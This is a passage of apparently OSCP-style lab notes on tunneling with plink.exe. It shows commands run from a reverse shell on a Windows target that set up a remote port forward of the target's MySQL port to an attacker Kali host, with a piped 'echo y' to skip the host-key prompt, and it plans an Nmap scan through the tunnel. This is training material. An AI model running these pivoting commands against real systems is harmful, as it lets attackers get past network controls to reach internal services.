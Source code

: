  -pw passw login with specified password
 -D [listen-IP:]listen-port
 Dynamic SOCKS-based port forwarding
 -L [listen-IP:]listen-port:host:port
 Forward local port to remote address
 -R [listen-IP:]listen-port:host:port
 Forward remote port to local address
 -X -x enable / disable X11 forwarding
 -A -a enable / disable agent forwarding
 -t -T enable / disable pty allocation

• We can use plink.exe to connect via SSH (-ssh) to our Kali machine (10.11.0.4) as the kali user(-l kali) with a password of “ilak” (-pw ilak) to create a remote port forward 
 (-R) of port 1234(10.11.0.4:1234) to the MySQL port on the Windows target (127.0.0.1:3306) with the followingcommand:

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/20/67.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/20/68.jpg)

• However, since this will most likely not work with the interactivity level we have in a typical reverse shell, we should pipe the answer to the prompt with the cmd.exe /c echo y command. 

• From our reverse shell, then, this command will successfully establish the remote port forward without any interaction:



C:\Tools\port_redirection_and_tunneling> plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:
1234:127.0.0.1:3306 10.11.0.4


• The first time plink connects to a host, it will attempt to cache the host key in the registry. 

• If we runthe command through an rdesktop connection to the Windows client, we can see this interactive step

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/20/69.jpg)

C:\Tools\port_redirection_and_tunneling> cmd.exe /c echo y | plink.exe -ssh -l kali -p
w ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
cmd.exe /c echo y | plink.exe -ssh -l root -pw toor -R 10.11.0.4:1234:127.0.0.1:3306 1
0.11.0.4
The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
kali@kali:~$ 


• Now that our tunnel is active, we can attempt to launch an Nmap scan of the target’s MySQL port via our localhost port forward on TCP port 1234:

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/20/70.jpg)
